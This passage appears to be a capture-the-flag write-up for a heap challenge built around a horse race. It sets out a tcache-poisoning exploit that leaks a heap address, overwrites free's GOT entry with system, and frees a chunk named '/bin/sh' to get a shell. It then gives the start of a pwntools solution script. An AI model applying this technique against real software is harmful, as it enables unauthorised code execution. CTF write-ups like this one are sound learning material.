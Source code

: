 1) Leak a heap address.

    1) `malloc` and `free` a chunk that represents a horse's name (by using `add_horse` and `remove_horse`). 

    2) `malloc` another chunk for a horse's name, naming it `0xff` (by using `add_horse`).


2) Overwrite `free`'s GOT entry with `system`'s PLT entry.

    1) Use the `head_start` function to write a mangled pointer (`free@GOT`) to the next field of a tcache chunk. The heap leak from earlier will be used here.
    
    2) Call `malloc` twice to get `free@GOT` (by using `add_horse`).
    
    3) Name this horse `system@PLT`.


3) Call `free`.

    1) Use `add_horse` to create a horse named `/bin/sh`.

    2) Free it with `remove_horse`.

Note that `remove_horse` eventually does `free(horses[(int)idx].name)`, so if the name is the string `/bin/sh`, then this effectively becomes `system("/bin/sh")`.

Here is the full solution:
```
from pwn import *

def _(r, s):
    try:
        print(p.readuntil(r).decode())
        p.sendline(s)
    except: pass

def cheat(index, name, distance):
    _(b': ', b'0')
    _(b'? ', str(index).encode())
    _(b': ', name)
    _(b'? ', str(distance).encode())

def add_horse(index, name_length, name):
    _(b': ', b'1')
    _(b'? ', str(index).encode())
    _(b'? ', str(name_length).encode())
    _(b': ', name)

def remove_horse(index):
    _(b': ', b'2')
    _(b'? ', str(index).encode())

def race():
    _(b': ', b'3')

def exit_game():
    _(b': ', b'4')

def mangle(addr, ptr):
    return (addr >> 12) ^ ptr

def main():
    global p
    local = True

    if local:
        script = '''
            set follow-fork-mode parent
            break *0x401a39
```